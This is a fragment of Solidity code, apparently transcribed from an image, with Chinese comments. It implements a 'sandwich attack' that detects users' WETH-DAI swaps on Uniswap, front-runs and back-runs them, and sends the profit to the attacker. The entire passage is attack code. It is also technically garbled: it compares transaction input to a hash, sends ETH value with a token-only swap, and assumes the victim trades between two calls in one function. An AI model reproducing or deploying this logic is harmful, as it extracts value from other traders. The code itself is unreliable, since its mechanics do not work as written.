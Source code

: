 ```solidity
            // 获取当前交易
            Transaction memory tx = transactions[i];
            // 检查当前交易是否是swapExactTokensForTokens函数的调用
            if (tx.input == keccak256("swapExactTokensForTokens(uint256,uint256,address[],address,uint256)")) {
                // 解析交易输入参数
                (uint amountIn, uint amountOutMin, address[] memory path, address to, uint deadline) = abi.decode(tx.input, (uint256,uint256,address[],address,uint256));
                // 检查交易路径是否是WETH-DAI或者DAI-WETH
                if ((path[0] == WETH && path[1] == DAI) || (path[0] == DAI && path[1] == WETH)) {
                    // 执行三明治攻击
                    sandwichAttack(amountIn, amountOutMin, path, to, deadline);
                }
            }
        }
    }
    
    // 执行三明治攻击
    function sandwichAttack(uint amountIn, uint amountOutMin, address[] memory path, address to, uint deadline) internal {
        // 计算前置交易的输入和输出金额
        uint frontAmountIn = amountIn / 10; // 假设前置交易使用10%的输入金额
        uint frontAmountOutMin = uniswapRouter.getAmountsOut(frontAmountIn, path)[1]; // 根据输入金额和路径计算输出金额的最小值
        
        // 计算后置交易的输入和输出金额
        uint backAmountIn = amountIn / 10; // 假设后置交易使用10%的输入金额
        uint backAmountOutMin = uniswapRouter.getAmountsOut(backAmountIn, path)[1]; // 根据输入金额和路径计算输出金额的最小值
        
                // 发送前置交易，使用更高的gas价格来抢先执行
        uniswapRouter.swapExactTokensForTokens{value: frontAmountIn * 2}(frontAmountIn, frontAmountOutMin, path, address(this), deadline);
        
        // 等待受害者的交易被执行
        
        // 发送后置交易，使用更低的gas价格来延后执行
        uniswapRouter.swapExactTokensForTokens{value: backAmountIn / 2}(backAmountIn, backAmountOutMin, path, address(this), deadline);
        
        // 计算攻击者的利润
        uint profit = 0;
        if (path[0] == WETH) {
            // 如果交易路径是WETH-DAI，那么攻击者的利润是DAI的余额
            profit = IERC20(DAI).balanceOf(address(this));
        } else {
            // 如果交易路径是DAI-WETH，那么攻击者的利润是WETH的余额
            profit = IERC20(WETH).balanceOf(address(this));
        }
        
        // 将利润转移到攻击者的地址
        IERC20(path[1]).transfer(msg.sender, profit);
    }
    
    // 定义交易结构体
    struct Transaction {
        string blockNumber;
        string timeStamp;
        string hash;
        string nonce;
        string blockHash;
        string from;
        string contractAddress;
```
